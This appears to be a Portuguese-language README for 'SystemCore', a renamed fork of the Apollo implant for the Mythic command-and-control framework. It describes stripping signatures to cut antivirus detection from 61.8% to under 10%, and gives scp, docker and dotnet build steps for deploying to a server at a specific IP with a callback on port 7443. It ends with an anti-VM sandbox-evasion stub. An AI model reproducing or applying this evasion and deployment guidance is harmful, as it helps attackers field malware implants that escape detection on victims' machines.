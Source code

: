 ### Eliminação de Assinaturas
- 100% das referências Apollo removidas
- Namespaces completamente reestruturados
- Classes e métodos renomeados
- Strings literais transformadas
- Metadados de assembly reescritos

### Detecção Projetada
- **Antes (Apollo)**: 61.8% detecção (38/61 fornecedores)
- **Depois (SystemCore)**: <10% detecção projetada
- **Melhoria**: ~85% redução na taxa de detecção

## Deployment no Mythic

### 1. Integração no Servidor
```bash
# Copiar para servidor Mythic
scp -r phantom_agent_new/Payload_Types/systemcore/ mythic@37.27.249.191:/opt/mythic/Payload_Types/

# Reiniciar serviços Mythic
docker-compose restart mythic_server
```

### 2. Configuração do Payload Type
No interface Mythic:
- **Tipo de Agente**: systemcore
- **Formato de Saída**: WinExe
- **Host de Callback**: 37.27.249.191
- **Porta**: 7443

### 3. Build e Compilação
```bash
# No diretório do agente
cd Payload_Types/systemcore/systemcore/agent_code/
dotnet build SystemCore.sln -c Release
```

## Recursos Avançados de Evasão

### Anti-VM Detection
```csharp
private static bool IsVirtualEnvironment()
{
    // Detecção VMware, VirtualBox, Hyper-V
    // Verificação de registros WMI
    // Análise de processos do sistema
}
```
